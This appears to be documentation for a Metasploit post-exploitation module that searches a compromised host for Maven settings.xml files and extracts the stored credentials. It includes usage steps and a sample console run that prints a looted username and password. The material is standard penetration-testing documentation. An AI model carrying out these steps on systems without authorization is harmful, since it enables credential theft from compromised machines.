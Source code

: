 ## Vulnerable Application

[Maven](https://maven.apache.org/) a software project management.
This module seeks all settings.xml (Maven configuration file) on the target file system to extract credentials from them.

This module was successfully tested against:

- Ubuntu 14.04 and Maven 3.0.5 with shell and meterpreter as session type
- Debian 9 and Maven 3.0.5 with shell and meterpreter as session type

## Verification Steps

  1. Get a `shell` or `meterpreter` session on some host.
  2. Do: ```use post/multi/gather/maven_creds```
  3. Do: ```set SESSION [SESSION_ID]```
  4. Do: ```run```
  5. If the system has readable configuration files (settings.xml) containing username and passwords, they will be printed out.

## Scenarios

### Ubuntu 14.04 and Maven version 3.0.5

```
msf post(maven_creds) > run

[*] Finding user directories
[*] Unix OS detected
[*] Looting 19 files
[*] Downloading /home/user/settings.xml
[*] Reading settings.xml file from /home/user/settings.xml
[*] Collected the following credentials:
[*]     Id: server-nexus
[*]     Username: deploynexus
[*]     Password: password

msf post(maven_creds) > creds

Credentials
===========

host  origin  service  public          private     realm           private_type
----  ------  -------  ------          -------     -----           ------------
                       deploynexus     password    server-nexus    Password
